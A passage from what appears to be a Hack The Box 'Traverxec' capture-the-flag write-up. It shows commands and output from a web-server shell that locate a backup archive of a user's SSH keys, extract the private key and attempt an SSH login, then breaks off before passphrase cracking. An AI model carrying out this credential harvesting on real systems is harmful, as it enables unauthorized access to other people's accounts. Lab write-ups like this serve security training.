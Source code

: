 As we can see the web server is running in a folder ***public_www***  located  home directory of david user. Lets see if we found some thing there:

```bash
www-data@traverxec:/home/david/public_www$ ls -alh
ls -alh
total 16K
drwxr-xr-x 3 david david 4.0K Oct 25 15:45 .
drwx--x--x 5 david david 4.0K Oct 25 17:02 ..
-rw-r--r-- 1 david david  402 Oct 25 15:45 index.html
drwxr-xr-x 2 david david 4.0K Oct 25 17:02 protected-file-area
www-data@traverxec:/home/david/public_www$ ls -alh protected-file-area
ls -alh protected-file-area
total 16K
drwxr-xr-x 2 david david 4.0K Oct 25 17:02 .
drwxr-xr-x 3 david david 4.0K Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1.9K Oct 25 17:02 backup-ssh-identity-files.tgz
```



Looks like we found the ssh backup keys. let copy that and try to use to get a ssh conection with ***david*** user:

```bash
www-data@traverxec:/home/david/public_www/protected-file-area$ cp *.tgz /tmp
cp *.tgz /tmp
www-data@traverxec:/home/david/public_www/protected-file-area$ cd /tmp
cd /tmp
www-data@traverxec:/tmp$ ls
ls
backup-ssh-identity-files.tgz
systemd-private-c5be4f458cda404e998e25081cd5ebc2-systemd-timesyncd.service-QzNMZB
vmware-root
vmware-root_556-2966037836
www-data@traverxec:/tmp$ tar zxpvf backup-ssh-identity-files.tgz
tar zxpvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
www-data@traverxec:/tmp$
```

We have the private key of david. Lets try to use them:

```bash
dumbland () hgfs/hackthebox/traverxec :: ssh -i id_rsa-david david@10.10.10.165
Enter passphrase for key 'id_rsa-david'
```

The result was not like expected - We need the password. 

## JohnTheRipper 

